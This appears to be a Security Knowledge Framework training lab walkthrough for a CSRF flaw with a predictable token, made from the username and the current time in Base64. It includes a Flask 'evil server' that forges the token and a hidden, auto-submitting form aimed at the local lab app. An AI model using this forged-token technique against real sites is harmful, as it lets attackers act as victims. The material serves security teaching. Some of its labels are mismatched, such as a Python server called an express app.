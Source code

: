 # KBID 5 - CSRF - Weak

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](../../.gitbook/assets/java/CSRF-weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](../../.gitbook/assets/java/CSRF-weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](../../.gitbook/assets/java/CSRF-weak/3.png)

Also we can see that the application is using a csrf_token

```html
    <form method="post" action="/update">
        <input type="hidden" class="form-control" name="csrf_token" value="<%=csrf_token %>">
        <input type="text" class="form-control" name="color" placeholder="favorite color"/><br/>
        <button class="btn btn-primary" type="submit">Submit Button</button></div>
    </form>
```

Looks like it's Base64 encoded, try decode it.

![](../../.gitbook/assets/java/CSRF-weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```javascript
  const username = req.body.username;
  const password = req.body.password;
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  db.get(sql, [username, password], (err, row) => {
    if (row) {
      const date = new Date();
      const time = date.getHours() + ":" + date.getMinutes();
      let csrf_token = username + time;
      session = req.session;
      session.userId = row.UserId;
      session.loggedIn = true;
      session.csrf_token = Buffer.from(csrf_token).toString("base64");
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following express application:

```python
import base64
from time import gmtime, strftime
from flask import Flask, request, url_for, render_template, redirect, make_response

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    time = strftime("%H:%M", gmtime())
    csrf = "admin" + time
    csrf_raw = base64.b64encode(csrf.encode())
    csrf_token = str(csrf_raw, 'utf-8')
    return render_template("evil.html", csrf_token = csrf_token)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.

```text
$ pip3 install flask
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="csrf_token" value="<%= csrf_token %>" />
  <input type="hidden" name="color" value="Hackzord!" />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python3 evil_server.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](../../.gitbook/assets/java/CSRF-weak/5.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](../../.gitbook/assets/java/CSRF-weak/6.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}
